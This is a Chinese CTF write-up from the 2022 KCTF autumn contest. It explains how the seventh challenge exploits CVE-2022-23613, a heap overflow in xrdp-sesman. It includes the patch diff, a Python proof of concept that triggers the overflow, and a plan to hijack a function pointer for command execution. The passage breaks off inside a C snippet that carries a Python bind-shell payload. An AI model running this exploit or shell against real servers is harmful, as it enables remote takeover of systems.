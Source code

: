 ```yaml
---
title: 看雪2022 KCTF 秋季赛 | 第七题设计思路及解析
url: https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458486282&idx=1&sn=71f316cf850ce64f8512e608974a881d&chksm=b18eb68086f93f96e68161fe2a34c5defd2955f7c90b02e6d366421893df62502f1c2974d57b&scene=58&subscene=0#rd
source: 看雪学院
date: 2022-12-03
fetch_date: 2025-10-04T00:24:29.397294
---
```


# 看雪2022 KCTF 秋季赛 | 第七题设计思路及解析

![cover_image](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8HDGvMlPib6bpzxpPaNb91zHtyRuC7EOAUEgWlxGZgF6IAIGB74UhSia25lNvDL72xe53XAdTLicYSIQ/0?wx_fmt=jpeg)

# 看雪2022 KCTF 秋季赛 | 第七题设计思路及解析

原创

2022 KCTF 秋季赛

看雪学苑

[*看雪 2022 KCTF秋季赛*](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458483668&idx=1&sn=df35db255afb9045521f889594e2acc5&chksm=b18e4b5e86f9c2484ce5f892774bd08973a0a1f7e297c1862742c85fc62cda5f1873afaba952&scene=21#wechat_redirect)已于11月15日中午12点正式开始！比赛延续上一届的模式并进行优化，对每道题设置了难度值、火力值、精致度等多类积分，用规则引导题目的难度和趣味度。大家请注意：签到题（https://ctf.pediy.com/game-season\_fight-216.htm）将持续开放，整个比赛期间均可提交答案，获得积分哦～

第七题《广厦万间》答题时间已截止，据统计：共3支战队成功提交flag，他们分别是：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HDGvMlPib6bpzxpPaNb91zHUzAssaHDNU7xicPPDcrWkEeTwL2lxR2aB0uDOTcT1icRySWtWKUowMrA/640?wx_fmt=png)

下面一起看看该赛题的设计思路和相关解析吧~

出题团队简介

第7题《广厦万间》出题方 **星盟安全团队****战队**

**战队成员id：Tokameine**

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HDGvMlPib6bpzxpPaNb91zH88JjSwHKXMiaEeDFbCSknpWOhDqMuViaCxYl3DIlzLNrzMIFhFSCvfyw/640?wx_fmt=png)

赛题设计思路

今年十月份，写了一篇关于该漏洞的利用分析：https://bbs.pediy.com/thread-274831.htm

我在文中对该漏洞的成因以及利用手段进行了较为详细的分析，最终得出的利用方式为：“通过建立大量连接进行堆喷，从而进行任意命令执行，从服务器中反弹一个shell出来进行连接。”

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HDGvMlPib6bpzxpPaNb91zHKUGOa6IOvggrKP6s1AuSliaalTeAxwfrpuIib7PgfkD9rSicCmjqopQKw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HDGvMlPib6bpzxpPaNb91zHaz4CXtJNicCm7cTS0WJIY3CIpzToWa9GibxXNGoO5ia12voSlBOSq9SMg/640?wx_fmt=png)

但是真的没有限制次数后也能稳定利用的方法吗？有，并且还不止一个，笔者在当时的文章写完后的第二天，躺在床上正好想起了这件事，并在接下来的一段时间里得到了在源程序不进行改变的情况下也能够稳定利用的方案。

两种方案都不需要更改源程序的允许连接数量 16 ，甚至不需要这么大，两种方案都只需要大约 5-10 个连接就能够稳定利用，这取决于 EXP 的精细程度。

第一种方案仍然依赖于堆喷，但是它并不需要很多的连接，笔者经过测试发现，只需要两个连接，就能够创建超过 0x100000~0xff00000 大小的堆空间。

第二种方案完全不依赖堆喷，它能够稳定控制调用 execlp3 或 execvp 的参数，而不需要经过任何地址碰撞。

> 其实，当时发那篇文章时，并没有将本利用作为赛题提交给KCTF的打算。
> 但是现在一想，如果我当时没有发布那篇文章，这道题的攻克者是否就会更少一点呢......略有些遗憾，但其实能有师傅做出来的话也还是很令笔者高兴的，尤其是能看到师傅们的利用思路，不论是否与我的预期相符。
>
> 秉承着 PWN FOR FUN 的原则，我仍然没有删除符号表，希望师傅们玩的开心。

#

##

```
一

回顾
```

首先回顾一下该漏洞的成因吧，该漏洞来自于 CVE-2022-23613 ，这是一个已公开的漏洞。

## **复现环境**

```
xrdp-sesman 0.9.18  The xrdp session manager  Copyright (C) 2004-2020 Jay Sorg, Neutrino Labs, and all contributors.  See https://github.com/neutrinolabs/xrdp for more information.
```

## 漏洞成因

```
static intsesman_data_in(struct trans *self){+ #define HEADER_SIZE 8    int version;    int size;
    if (self->extra_flags == 0)    {        in_uint32_be(self->in_s, version);        in_uint32_be(self->in_s, size);-        if (size > self->in_s->size)+        if (size < HEADER_SIZE || size > self->in_s->size)        {-            LOG(LOG_LEVEL_ERROR, "sesman_data_in: bad message size");+            LOG(LOG_LEVEL_ERROR, "sesman_data_in: bad message size %d", size);            return 1;        }        self->header_size = size;@@ -302,11 +303,12 @@ sesman_data_in(struct trans *self)            return 1;        }        /* reset for next message */-        self->header_size = 8;+        self->header_size = HEADER_SIZE;        self->extra_flags = 0;        init_stream(self->in_s, 0); /* Reset input stream pointers */    }    return 0;+ #undef HEADER_SIZE}
```

从已公开的 Patch 可以看出，它添加了一个对 size 变量的负数校验，似乎意味着整数溢出漏洞的存在，不妨跟踪一下该变量。

```
else /* connected server or client (2 or 3) */{    if (self->si != 0 && self->si->source[self->my_source] > MAX_SBYTES)    {    }    else if (self->trans_can_recv(self, self->sck, 0))    {        cur_source = XRDP_SOURCE_NONE;        if (self->si != 0)        {            cur_source = self->si->cur_source;            self->si->cur_source = self->my_source;        }        read_so_far = (int) (self->in_s->end - self->in_s->data);        to_read = self->header_size - read_so_far;
        if (to_read > 0)        {            read_bytes = self->trans_recv(self, self->in_s->end, to_read);
```

查找 self->header\_size 的引用，可以发现该变量将与 self->trans\_recv 的参数间接相关，而该函数类似于 read 的作用，将 self 相关的套接字中读取 to\_read 个字符到 self->in\_s->end 。

而该缓冲区来自于：

```
struct trans *trans_create(int mode, int in_size, int out_size){    struct trans *self = (struct trans *) NULL;
    self = (struct trans *) g_malloc(sizeof(struct trans), 1);
    if (self != NULL)    {        make_stream(self->in_s);        init_stream(self->in_s, in_size);        make_stream(self->out_s);        init_stream(self->out_s, out_size);        self->mode = mode;        self->tls = 0;        /* assign tcp calls by default */        self->trans_recv = trans_tcp_recv;        self->trans_send = trans_tcp_send;        self->trans_can_recv = trans_tcp_can_recv;    }
    return self;}
```

```
#define init_stream(s, v) do \    { \        if ((v) > (s)->size) \        { \            g_free((s)->data); \            (s)->data = (char*)g_malloc((v), 0); \            (s)->size = (v); \        } \        (s)->p = (s)->data; \        (s)->end = (s)->data; \        (s)->next_packet = 0; \    } while (0)
```

可以看见，该缓冲区会通过 g\_malloc 创建在堆上，那么只要 to\_read 的值超出了堆的原始大小，就有可能造成堆溢出了：

```
g_list_trans = trans_create(TRANS_MODE_TCP, 8192, 8192);
```

从调用点也可以看出，每次建立一个新的连接时都会为该连接创建一个大小为 0x2000 的输入缓冲区，并且接下来将会调用 trans\_check\_wait\_objs ：

```
inttrans_check_wait_objs(struct trans *self){    ......    if (self->type1 == TRANS_TYPE_LISTENER) /* listening */    {        ......    }    else /* connected server or client (2 or 3) */    {        if (self->si != 0 && self->si->source[self->my_source] > MAX_SBYTES)        {        }        else if (self->trans_can_recv(self, self->sck, 0))        {            cur_source = XRDP_SOURCE_NONE;            if (self->si != 0)            {                cur_source = self->si->cur_source;                self->si->cur_source = self->my_source;            }            read_so_far = (int) (self->in_s->end - self->in_s->data);            to_read = self->header_size - read_so_far;
            if (to_read > 0)            {                read_bytes = self->trans_recv(self, self->in_s->end, to_read);                ......            }        ......    }
    return rv;}
```

如果创建的类型不为 TRANS\_TYPE\_LISTENER ，那么该连接就会调用 self->trans\_recv 将数据直接读进刚刚创建的输入缓冲区中，且由于它并没有校验 self->header\_size 可能是负数的情况，因此可以令 to\_read 通过负数减去一个正数溢出为一个极大的正数，从而导致堆溢出。

POC：

```
import socketimport structif __name__ == "__main__":    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)    s.connect(("127.0.0.1",3350))    sdata = b''    sdata += struct.pack("I",0x2222CCCC) #version    sdata += struct.pack(">I",0x80000000) #headersize    s.send(sdata)    sdata = b'a'*0x10000  #padding    s.send(sdata)
```

## **漏洞利用**

回顾一下刚刚的 trans\_create 可以发现：

```
struct trans *trans_create(int mode, int in_size, int out_size){    struct trans *self = (struct trans *) NULL;
    self = (struct trans *) g_malloc(sizeof(struct trans), 1);    ......        self->trans_recv = trans_tcp_recv;        self->trans_send = trans_tcp_send;        self->trans_can_recv = trans_tcp_can_recv;    return self;}
```

struct trans self 结构体与输入输出缓冲区同样位于堆内存中，并且它还初始化了函数指针，那么一个可行的利用点就是：通过堆溢出去覆盖 self->trans\_recv 偏移处的值为一个类似 system 的函数来进行任意命令执行。

通过 IDA 搜索可以找到如下两个函数：

```
extern:00000000004105D8                 extrn g_execvp:nearextern:0000000000410658                 extrn g_execlp3:near
```

这两个命令分别是 execvp 和 execlp 的包装，函数实现如下：

```
intg_execvp(const char *p1, char *args[]){    ......    args_len = 0;    while (args[args_len] != NULL)    {        args_len++;    }    g_strnjoin(args_str, ARGS_STR_LEN, " ", (const char **) args, args_len);
    g_rm_temp_dir();    rv = execvp(p1, args);    ......}
intg_execlp3(const char *a1, const char *a2, const char *a3){    ......    g_strnjoin(args_str, ARGS_STR_LEN, " ", args, 2);    ......    g_rm_temp_dir();    rv = execlp(a1, a2, a3, (void *)0);    ......}
```

因为 xrdp 服务是通过 socket 进行通信的，因此让其打开 “/bin/sh” 是不够的，想要让它能够完成任意命令执行，最好还是让它反弹一个 shell 出来比较合适，比方说：

```
#include<stdlib.h>int main(){    char ars2[]="-cimport socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind((\"\",10000));s.listen();c,_=s.accept();f=c.fileno();os.dup2(f,0);os.dup2(f,1);os.dup2(f,2);os.system(\"sh\");";    execlp("...